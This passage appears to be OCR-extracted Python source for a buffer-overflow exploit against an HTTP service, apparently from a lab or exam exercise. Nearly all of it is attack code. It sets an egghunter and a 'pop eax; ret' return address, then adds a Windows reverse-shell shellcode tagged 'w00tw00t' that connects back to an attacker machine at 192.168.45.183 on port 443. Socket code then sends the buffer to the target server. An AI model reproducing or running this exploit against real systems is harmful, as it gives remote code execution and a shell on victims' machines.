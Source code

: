 ```py
             b"\x3a\xfe\xff\xff\xf7\xd8\xcd\x2e"
             b"\x3c\x05\x5a\x74\xeb\xb8\x77\x30"
             b"\x30\x74\x89\xd7\xaf\x75\xe6\xaf"
             b"\x75\xe3\xff\xe7")

  inputBuffer = b"\x41" * (size - len(egghunter))
  inputBuffer+= pack("<L", (0x418674))                  # 0x00418674 - pop eax; ret
  httpEndRequest = b"\r\n\r\n"

  payload =  b""
  payload += b"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5"
  payload += b"\x64\x8b\x52\x30\x8b\x52\x0c\x8b\x52\x14\x8b"
  payload += b"\x72\x28\x31\xff\x0f\xb7\x4a\x26\x31\xc0\xac"
  payload += b"\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7"
  payload += b"\x49\x75\xef\x52\x8b\x52\x10\x8b\x42\x3c\x57"
  payload += b"\x01\xd0\x8b\x40\x78\x85\xc0\x74\x4c\x01\xd0"
  payload += b"\x8b\x58\x20\x8b\x48\x18\x50\x01\xd3\x85\xc9"
  payload += b"\x74\x3c\x49\x31\xff\x8b\x34\x8b\x01\xd6\x31"
  payload += b"\xc0\xc1\xcf\x0d\xac\x01\xc7\x38\xe0\x75\xf4"
  payload += b"\x03\x7d\xf8\x3b\x7d\x24\x75\xe0\x58\x8b\x58"
  payload += b"\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01"
  payload += b"\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b"
  payload += b"\x5b\x61\x59\x5a\x51\xff\xe0\x58\x5f\x5a\x8b"
  payload += b"\x12\xe9\x80\xff\xff\xff\x5d\x68\x33\x32\x00"
  payload += b"\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26"
  payload += b"\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29"
  payload += b"\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a"
  payload += b"\x0a\x68\xc0\xa8\x2d\xb7\x68\x02\x00\x01\xbb"
  payload += b"\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68"
  payload += b"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57"
  payload += b"\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a"
  payload += b"\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a"
  payload += b"\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
  payload += b"\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68"
  payload += b"\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53"
  payload += b"\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68"
  payload += b"\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28"
  payload += b"\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b"
  payload += b"\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61"
  payload += b"\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff"
  payload += b"\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6"
  payload += b"\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53"
  payload += b"\xff\xd5"

  shellcode = b"w00tw00t" + payload +  b"\x44" * (400 - len(payload))

  buf = httpMethod + egghunter + inputBuffer +  httpEndRequest + shellcode

  print("Sending buffer")
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect((server, port))
  s.send(buf)
  s.close()
  
  print("Done!")
  
except socket.error:
  print("Could not connect!")
```
